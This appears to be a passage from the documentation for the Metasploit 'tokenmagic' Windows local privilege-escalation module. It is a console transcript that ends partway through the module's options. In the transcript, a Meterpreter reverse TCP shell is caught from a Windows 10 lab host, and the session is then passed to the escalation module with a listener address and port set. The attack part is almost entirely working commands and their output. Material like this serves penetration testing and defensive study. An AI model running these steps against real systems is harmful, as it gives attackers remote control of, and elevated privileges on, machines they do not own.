 
### Tested on Windows 10 x64 1703 (Build 15063) via service exploitation
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.199.1:4444 
[*] Sending stage (200262 bytes) to 172.16.199.133
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.133:49994) at 2021-05-07 15:04:19 -0400

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/tokenmagic
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/tokenmagic) > show options

Module options (exploit/windows/local/tokenmagic):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   METHOD            SERVICE          yes       SERVICE or DLL, please select which attack method you would like to use (SERVICE by default).
   SERVICE_FILENAME  kaOOacm          no        Filename for Service Payload (%RAND% by default).
   SERVICE_NAME      eNlQhw           no        Service Name to use (%RAND% by default).
   SESSION                            yes       The session to run this module on.
   WRITABLE_DIR                       no        Location of file to overwrite (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/tokenmagic) > set session 1
session => 1
msf6 exploit(windows/local/tokenmagic) > set LHOST 172.16.199.1
LHOST => 172.16.199.1 
msf6 exploit(windows/local/tokenmagic) > set LPORT 4443
LPORT => 4443
msf6 exploit(windows/local/tokenmagic) > show options

Module options (exploit/windows/local/tokenmagic):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
```